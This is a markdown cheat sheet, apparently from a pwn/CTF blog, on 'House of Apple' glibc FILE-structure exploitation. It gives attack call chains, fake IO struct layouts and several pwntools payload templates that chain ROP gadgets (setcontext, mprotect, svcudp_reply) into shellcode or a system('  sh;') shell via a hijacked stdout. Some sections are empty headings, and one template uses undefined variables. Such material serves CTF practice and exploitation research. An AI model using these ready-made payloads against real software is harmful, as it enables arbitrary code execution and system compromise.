


[toc]

**Blog: https://4xura.com/pwn/pwn-travelgraph/**

## Background

When program returns from `main`, or execute the `exit` function, it calls the `fcloseall` function. The call chain can be illustrated as:

```
exit
	fcloseall
		_IO_cleanup
			_IO_flush_all_lockp
				_IO_OVERFLOW
```

It means, when the `exit` function is called, one of the cleanup tasks is to flush and close all open file streams. This is done through a chain of function calls shown above. And eventually `_IO_flush_all_lockp` iterates over the file streams stored in `_IO_list_all` (points to `_IO_2_1_stderr_` followingly by default):



If we change the vtable pointer (struct `IO_jump_t`) inside the fake IO struct to `_IO_wxxxx_jumps`, it then quotes `_wide_data` and execute functions inside its vtable pointer. For example, if we make the vtable pointer as `_IO_wfile_jumps`:




## House of Apple 1

**House analysis**: [link](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-1/) by author *Roderick*.

**IO structs offset**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

**EXP template**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).

### HIJACK | tcache


### HIJACK | mp_


### HIJACK | pointer_guard


## House of Apple 2

**House analysis**: [link](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/#%E5%88%A9%E7%94%A8%E5%8E%9F%E7%90%86) by author *Roderick*.

**IO structs offset**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO%20structs.md).

**EXP template**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).

### HIJACK | _IO_wfile_overflow

**Attack Chain**:

```
_IO_wfile_overflow
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

**Fake IO Deployment**:

- `_flags`: `~(2 | 0x8 | 0x800)`; Or simply `0` if we don't care `rdi`; Set  `'  sh;'` for getting shell.
- `vtable`:  `_IO_wfile_jumps`, `_IO_wfile_jumps_mmap` or `_IO_wfile_jumps_maybe_mmap`.
- `_wide_data`: Heap address `A` in our control, namely `*(fp+0xa0)=A`.
- `_wide_data->_IO_write_base`: `0`, namely `*(A+0x18)=0`.
- `_wide_data->_IO_buf_base`: `0`，namely `*(A+0x30)=0`.
- `_wide_data->_wide_vtable`: Heap address `B` in our control, namely `*(A+0xe0)=B`.
- `_wide_data->_wide_vtable->doallocate`: Starting function/gadget `C`  to hijack `RIP`, namely `*(B+0x68)=C`.

#### GG | setcontext

**Version**: GLIBC 2.35

```python
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x140]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO  
    0: {  
        0x0:  0,	# _flag
        0x20: 0,	# _IO_write_base
        0x28: 1,	# _IO_write_ptr 
        0x88: fakeIO_addr,	# _lock
        0xa0: fakeIO_addr+0x100,	# _wide_data = rdx
        0xd8: _IO_wfile_jumps   	# vtable
    },
    # fake_IO->_wide_data
    0x100: { 
        0x18: 0,    # _IO_write_base
        0x30: 0,    # _IO_buf_base
        0x40: orw_chain,	# mprotect ->
        0xa0: [fakeIO_addr+0x300, ret],	# setcontext ->
        0xe0: fakeIO_addr+0x200   # _wide_vtable
    },
    # fake_IO->wide_data->_wide_vtable
    0x200: {
        # <+61>:  mov rsp, [rdx+0xa0]
        # <+294>: mov rcx, [rdx+0xa8]
        # <+301>: push rcx
        # <+334>: ret
        0x68: setcontext  # __doallocate
    },
    0x300: {
        0x0: mprotect_chain,
    }
}, filler='\0')
```

- Overwriting `_lock` pointer is not necessary in most cases. 
- `_IO_write_base` & `_IO_buf_base` at **fake_IO->_wide_data** not necessary.
- GDB Breakpoints: `*_IO_wdoallocbuf`, `*_IO_wdoallocate` (`*_IO_wdefault_doallocate`).

#### GG | svcudp_reply+26

**Version**: < GLIBC 2.35, or Ubuntu GLIBC 2.35-0ubuntu3.8.

```python
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']
svcudp_reply 	= libc_base + 0x16a06a
rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
add_rsp_0x28_r  = libc_base + 0x0000000000045f25
add_rsp_0xa8_r  = libc_base + 0x00000000000434a7
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x140]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO  
    0: {  
        0x0:  0,	# _flag
        0x20: 0,	# _IO_write_base
        0x28: 1,	# _IO_write_ptr
        0x38: add_rsp_0x28_r,          
        0x48: fakeIO_addr+0x30,  
        0x58: leave_r,
        0x60: fakeIO_addr+0x30,
        0x68: p_rdi_r, 
        0x70: fake_IO&(~0xfff), 
        0x78: p_rsi_r, 
        0x80: 0x4000, 
        0x88: add_rsp_0xa8_r, 
        0xa0: fakeIO_addr+0x100,    # _wide_data 
        0xd8: _IO_wfile_jumps   # vtable
    },
    # fake_IO->_wide_data
    0x100: { 
        0x18: 0,    # _IO_write_base
        0x30: 0,    # _IO_buf_base
        0x38:[p_rdx_rbx_r, 7, 0, mprotect, fake_IO+0x100+0x70],
        0x70: asm(shellcraft.open('/flag', 0) + shellcraft.read(3, heap_base, 0x100) + shellcraft.write(1, heap_base, 0x100)),	# orw_chain
        0xe0: fake_IO+0x200   # _wide_vtable
    },
    # fake_IO->wide_data->_wide_vtable
    0x200: {
        # mov rbp, [rdi + 0x48]; mov rax, [rbp + 0x18]; lea r13, [rbp + 0x10]; 
        # mov [rbp + 0x10], 0; mov rdi, r13; call [rax + 0x28];
        0x68: svcudp_reply  # __doallocate 
    }
}, filler='\0')
```

- `_IO_write_base` & `_IO_buf_base` at **fake_IO->_wide_data** not necessary.

- Mprotect chain is separated and connected by `add rsp, ...` gadgets (manually search offsets).

- Manually ORW chain format, can be replaced with `orw_chain`.

### HIJACK | _IO_wfile_underflow_mmap

**Attack Chain**:

```
_IO_wfile_underflow_mmap
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

**Fake IO Deployment**:

- `_flags`: `~4`; Or simply `0` if we don't care `rdi`; Set  `'  sh;'` for getting shell.
- `vtable`:  `_IO_wfile_jumps_mmap`.
- `_IO_read_ptr < _IO_read_end`: namely `*(fp+8) < *(fp+0x10)`.
- `_wide_data`: Heap address `A` in our control, namely `*(fp+0xa0)=A`.
- `_wide_data->_IO_read_ptr >= _wide_data->_IO_read_end`: namely `*A >= *(A+8)`.
- `_wide_data->_IO_buf_base`: `0`，namely `*(A+0x30)=0`.
- `_wide_data->_IO_save_base`: `0` or a valid address can be free, namely `*(A+0x40)=0`.
- `_wide_data->_wide_vtable`: Heap address `B` in our control, namely `*(A+0xe0)=B`.
- `_wide_data->_wide_vtable->doallocate`: Starting function/gadget `C`  to hijack `RIP`, namely `*(B+0x68)=C`.


### HIJACK | _IO_wdefault_xsgetn

When `_IO_wdefault_xsgetn` is triggered, `rdx` cannot be 0.

**Attack Chain**:

```
_IO_wdefault_xsgetn
    __wunderflow
        _IO_switch_to_wget_mode
            _IO_WOVERFLOW
                *(fp->_wide_data->_wide_vtable + 0x18)(fp)
```

**Fake IO Deployment**:

- `_flags`: `0x800`.
- `vtable`:  `_IO_wstrn_jumps`, `_IO_wmem_jumps`, or `_IO_wstr_jumps`.
- `_mode`: Greater than 0 (`*(fp+0xc0) > 0`).
- `_wide_data`: Heap address `A` in our control, namely `*(fp+0xa0)=A`.
- `_wide_data->_IO_read_end == _wide_data->_IO_read_ptr`:  `0`, namely `*(A+8)=*A`.
- `_wide_data->_IO_write_ptr > _wide_data->_IO_write_base`: namely  `*(A+0x20) > *(A+0x18)`.
- `_wide_data->_wide_vtable`: Heap address `B` in our control, namely `*(A+0xe0)=B`.
- `_wide_data->_wide_vtable->doallocate`: Starting function/gadget `C`  to hijack `RIP`, namely `*(B+0x68)=C`.


### HIJACK | _IO_wfile_seekoff

**Requirements**: Arbitrary write on `stdout`.

For functions like `puts` or `printf` (when outputs a string with `\n`), the `fp` points to the FILE struct `stdout`. And these functions execute `_IO_XSPUTN` (+0x38) internally, that we can modify the vtable pointer by adding offset 0x10 to let it execute `_IO_seeoff` (+0x48). Check out the struct `_IO_wfile_jumps`.

(This methodology is actually introduced in **House of cat**, they are just similar.)

**Attack Chain**:

```
puts
  _IO_XSPUTN（before） --> _IO_wfile_seekoff（after hijacked）
     _IO_switch_to_wget_mode
        _IO_WOVERFLOW
           *(fp->_wide_data->_wide_vtable + 0x18)(fp)
```

**Fake IO Deployment**:

- `vtable`:  `_IO_wfile_jumps+0x10`.
- `_wide_data`: An address `A` in our control, namely `*(fp+0xa0)=A` (We can make the address `_IO_2_1_stdout_` in this case when we hijack the execution flow of `puts/printf` function).
- `_wide_data->_IO_write_ptr > _wide_data->_IO_write_base`: namely  `*(A+0x20) > *(A+0x18)`.
- `_wide_data->_wide_vtable`: An address `B` in our control, namely `*(A+0xe0)=B`.
- `_wide_data->_wide_vtable->overflow`: Starting function/gadget `C`  to hijack `RIP`, namely `*(B+0x18)=C`.

#### GG | system

**Analysis**: [link](https://c-lby.top/2024/08/05/house-of-apple2/#) by author *C_LBY*.

**Version**: GLIBC 2.35

When there's no sandbox to restrict functions like `execve`, we can manage to get shell by hijacking `_IO_2_1_stdout_` which will be applied in `puts/printf` function:

> Only hijacking `_IO_2_1_stdout_` works, while `puts` is not taking `stdout` as the parameter.

```py
# Gadgets
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
_IO_2_1_stdout_ = libc_base + libc.sym['_IO_2_1_stdout_']
stdout		    = libc_base + libc.sym['stdout']
system	        = libc_base + libc.sym['system']
environ			= libc_base + libc.sym['_environ']
rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_wfile_jumps)
pa(stdout)
pa(system)
pa(environ)

fakeIO_addr = stdout
pa(fakeIO_addr)

pl = flat({ 
    0x0:  b'  sh;',			# _flag
    0x10: system,			# _wide_data->_wide_vtable->_IO_wfile_overflow
    0x20: _IO_2_1_stdout_,	# _wide_data->_IO_write_ptr
    0x88: environ-0x10, 	# _lock
    0xa0: _IO_2_1_stdout_,		# _wide_data 
    0xd8: _IO_wfile_jumps+0x10, # vtable
    0xe0: _IO_2_1_stdout_-0x8,	# _wide_data->_wide_vtable
}, filler='\0')
```

- `_flag` with 2 space at the beginning.

- Overwriting `_lock` pointer is not necessary if we don't attack the `stdout` FILE struct.
- If we aim to hijack `stdout`, the pointer `_lock` should be considered:
  - `[_lock]` readable;
  - `[_lock+8]` readable;
  - `[[_lock]]` writable.
- Or we can write an address near `_IO_stdfile_1_lock`.
- If the program is using `read` function, we can put a heap address into `_lock`.
- GDB Breakpoints: `_IO_file_xsputn`, `_IO_file_seekoff`.


### HIJACK | stderr

Idea provided by **House of Kiwi**.

**Attack Chain**:

```
__malloc_assert
	fflush(stderr)
			_IO_file_sync
```

- `stderr->vtable`: `_IO_file_jumps`.
- `rdx`: `IO_helper_jumps`.
- `_IO_file_sync`: at offset **0x60** in the table.
- Before calling `__IO_file_sync`, `__vfprintf_internal` will also call `_IO_new_file_xsputn` (+0x38) from the vtable.


#### GG | setcontext

**Version**: GLIBC 2.35

```py
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
_IO_2_1_stdout_ = libc_base + libc.sym['_IO_2_1_stdout_']
stdout		    = libc_base + libc.sym['stdout']
environ			= libc_base + libc.sym['_environ']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']
rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
add_rsp_0x28_r  = libc_base + 0x0000000000045f25
add_rsp_0xa8_r  = libc_base + 0x00000000000434a7
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(stdout)
pa(environ)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x140]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO  
    0: {  
        0x0:  0,	# _flag
        0x88: environ-0x10, 		# _lock
        0xa0: fakeIO_addr+0x100,    # _wide_data=rdx 
        0xd8: _IO_wfile_jumps+0x10, # vtable (_IO_wfile_seekoff)
    },
    # fake_IO->_wide_data
    0x100: { 
        0x18: 0,    # _IO_write_base
        0x20: 1,    # _IO_write_ptr 
        0x40: orw_chain,	# mprotect ->
        0xa0: [fakeIO_addr+0x230, ret],	# setcontext ->
        0xe0: fakeIO_addr+0x200,	# _wide_vtable
    },
    # fake_IO->wide_data->_wide_vtable
    0x200: {
        # <+61>:  mov rsp, [rdx+0xa0]
        # <+294>: mov rcx, [rdx+0xa8]
        # <+301>: push rcx
        # <+334>: ret
        0x18: setcontext,	# _IO_WOVERFLOW
        0x30: mprotect_chain
    }
}, filler='\0')

# largebin attack: bk_nextsize=stdout-0x20
```

- Overwriting `_lock` pointer is not necessary if we don't attack the `stdout` FILE struct.
- If we aim to hijack `stdout`, the pointer `_lock` should be considered:
  - `[_lock]` readable;
  - `[_lock+8]` readable;
  - `[[_lock]]` writable.
- Or we can write an address near `_IO_stdfile_1_lock`.
- If the program is using `read` function, we can put a heap address into `_lock`.
- GDB Breakpoints: `_IO_file_xsputn`, `_IO_file_seekoff`.


## House of Apple 3

House analysis: [link](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-3/) by author *Roderick*.

IO structs offset: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

EXP template: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).